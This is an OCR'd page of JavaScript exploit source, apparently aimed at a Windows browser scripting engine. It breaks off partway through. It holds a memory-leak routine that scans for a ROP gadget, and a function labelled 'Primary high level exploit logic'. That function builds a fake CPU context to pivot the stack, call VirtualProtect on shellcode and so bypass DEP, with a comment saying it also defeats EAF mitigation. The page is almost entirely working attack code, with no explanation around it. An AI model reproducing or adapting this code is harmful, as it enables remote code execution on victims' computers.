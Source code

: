         if(DataMask == 0x0000FFFF) {
            LeakFunc = LeakWord64;
        }

        var LeakedData = LeakFunc(LeakAddress);

        if((~LeakedData & DataMask) == ~Data) {
            DebugLog("Found gadget at expected delta of " + MagicOffset.toString(16));
        }
        else {
            var HighAddress = MakeQword(LeakAddress.high, LeakAddress.low + 1);
            var LowAddress = MakeQword(LeakAddress.high, LeakAddress.low - 1);

            LeakAddress = MakeQword(0, 0);

            while(LowAddress.low >= MinLowAddress.low || HighAddress.low < MaxHighAddress.low) {
                if(LowAddress.low >= MinLowAddress.low) {
                    LeakedData = LeakFunc(LowAddress);

                    if((~LeakedData & DataMask) == ~Data) {
                        DebugLog("Found gadget from scan below magic at 0x" + LowAddress.high.toString(16) + LowAddress.low.toString(16));
                        LeakAddress = LowAddress;
                        break;
                    }

                    LowAddress.low -= 1;
                }

                if(HighAddress.low < MaxHighAddress.low) {
                    LeakedData = LeakFunc(HighAddress);

                    if((~LeakedData & DataMask) == ~Data) {
                        LeakAddress = HighAddress;
                        IndexDelta = (LeakAddress.low - InitialAddress.low);
                        DebugLog("Found gadget from scan above magic at 0x" + HighAddress.high.toString(16) + HighAddress.low.toString(16) + " (index " + IndexDelta.toString(10) + ")");
                        break;
                    }

                    HighAddress.low += 1;
                }
            }
        }

        return LeakAddress;
    }

    ////////
    ////////
    // Primary high level exploit logic
    ////////

    function MakeContextDEPBypass64(NewRSP, ArtificialStackAddress, StackPivotAddress, VirtualProtectAddress, ShellcodeAddress, ShellcodeSize, WritableAddress) {
        return "\u0000\u0000\u0000\u0000" + // P3Home
        "\u0000\u0000\u0000\u0000" + // P4Home
        "\u0000\u0000\u0000\u0000" + // P5Home
        "\u0000\u0000\u0000\u0000" + // P6Home
        "\u0003\u0010" + // ContextFlags
        "\u0000\u0000" + // MxCsr
        "\u0033" + // SegCs
        "\u0000" + // SegDs
        "\u0000" + // SegEs
        "\u0000" + // SegFs
        "\u0000" + // SegGs
        "\u002b" + // SegSs
        "\u0246\u0000" + // EFlags
        "\u0000\u0000\u0000\u0000" + // Dr0 - Prevents EAF too!